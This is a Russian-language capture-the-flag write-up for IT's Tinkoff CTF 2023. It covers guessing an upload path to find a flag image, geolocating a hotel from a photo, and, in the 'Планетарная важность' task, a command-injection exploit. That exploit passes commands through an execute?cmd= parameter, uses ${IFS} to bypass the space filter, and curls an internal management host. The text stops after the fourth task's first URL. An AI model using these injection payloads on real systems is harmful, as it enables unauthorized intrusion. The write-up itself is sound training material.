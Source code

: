 # IT's Tinkoff CTF 2023

### Web: Зов Аномалий
Описание:

![ScreenShot](screenshots/1.png)

Осматриваем сайт и находим карту "Зоны":

![ScreenShot](screenshots/2.png)

![ScreenShot](screenshots/3.png)

Выбираем один из артефактов на карте и открываем его в отдельном окне:

![ScreenShot](screenshots/4.png)

![ScreenShot](screenshots/5.png)

Получаем путь до картинки с артефактом:
```sh
https://its-artifacts-jk2dm72.spbctf.ru/wp-content/uploads/2023/07/kandinsky-download-1688481651933.png
```

Меняем название картинки на **flag.png**:

```sh
https://its-artifacts-jk2dm72.spbctf.ru/wp-content/uploads/2023/07/flag.png
```

![ScreenShot](screenshots/6.png)

**its{c0n6r47ul4710n5_y0u_f0und_7h3_m41n_4r71f4c7}**

---

### Web: Планетарная важность
Описание:

![ScreenShot](screenshots/7.png)

Перейдем по ссылке и увидим простой сайт, где из рабочих элементов есть "**Статус пограммы**", который возвращает "**[The system's broken]**":

![ScreenShot](screenshots/8.png)

![ScreenShot](screenshots/9.png)

Проверяем исходный код страницы и находим интересный элемент "**/execute?cmd=get-status**", проверяем, сможет ли он исполнить нашу команду **ls**:

![ScreenShot](screenshots/10.png)

```sh
https://its-broken-cb23byi7.spbctf.ru/execute?cmd=ls
```

![ScreenShot](screenshots/11.png)

К сожалению обнаруживаем, что пробелы не обрабатываются в чистом виде:

```sh
https://its-broken-cb23byi7.spbctf.ru/execute?cmd=ls%20-la
```

![ScreenShot](screenshots/12.png)

Находим способ передачи символа "пробел" через ${IFS}:

```sh
https://its-broken-cb23byi7.spbctf.ru/execute?cmd=ls${IFS}-la
```

![ScreenShot](screenshots/13.png)

Обнаруживаем список файлов и читаем **README.md**

```sh
https://its-broken-cb23byi7.spbctf.ru/execute?cmd=cat${IFS}README.md
```

![ScreenShot](screenshots/14.png)

```sh
	## Панель управления 
	### Старт приложения Для запуска приложения выполните 
	```bash curl http://management:5000/start/ ``` 

	### Обновления Для получения обновлений выполните 
	```bash curl http://management:5000/getUpdates/ ``` 

	### 	Перезагрузка Для перезагрузки приложения выполните 
	```bash curl http://management:5000/restart/ ```
```

Выполняем перезагрузку:

```sh
https://its-broken-cb23byi7.spbctf.ru/execute?cmd=curl${IFS}-s${IFS}http://management:5000/restart/
```

![ScreenShot](screenshots/15.png)

Сказано, двигаться в **/060648ac9456adba9740f7b2b119abf2bcf194c2/**. Двигаемся и находим флаг:

```sh
https://its-broken-cb23byi7.spbctf.ru/060648ac9456adba9740f7b2b119abf2bcf194c2/
```

![ScreenShot](screenshots/16.png)

**its{yoU_54VED_hUMaNi7Y_fRoM_a_M3t3Orite_FALL_w17h_RcE}**

---

### OSINT: Осьмак
Описание:

![ScreenShot](screenshots/17.png)

![ScreenShot](screenshots/18.png)

Перейдем по ссылке и увидим форму, в которую необходимо внести данные, для того, чтобы получить флаг:

![ScreenShot](screenshots/19.png)

![ScreenShot](screenshots/20.png)

Первым делом, пробуем **поиск по картинке**:

![ScreenShot](screenshots/21.png)

Находим что-то похожее на наше изображение. Проверим источник изображения:

![ScreenShot](screenshots/22.png)

Новый ориентир - **Roof Apart Hotel**:

Ищем отель на Google картах, используя данные из ресурсах-источника изображения:

![ScreenShot](screenshots/23.png)

На данном этапе понимаем, что это не тот отель, который нам нужен - обращаем внимание на угол обзора. Скорее всего, нам нужно ориентироваться на два здания, стоящих рядом:

![ScreenShot](screenshots/24.png)

Примерно проверяем еще раз угол обзора, используя вид сверху:

![ScreenShot](screenshots/25.png)

Находим другой отель - Holiday Inn Express:

![ScreenShot](screenshots/26.png)

Копируем его полный адрес:

![ScreenShot](screenshots/27.png)

Первые три пункта формы мы, предположительно, узнали, остается перебрать этажи:

![ScreenShot](screenshots/28.png)

**its{vZLOMSh1KI_ha5-B3EN_fOUND_AnD_neU7r4L1ZED}**

---

### Web: Принцесса в другом замке
Описание:

![ScreenShot](screenshots/29.png)

https://its-tinderella-w2wfm3xc.spbctf.ru/api/princess-sputnik?id=2

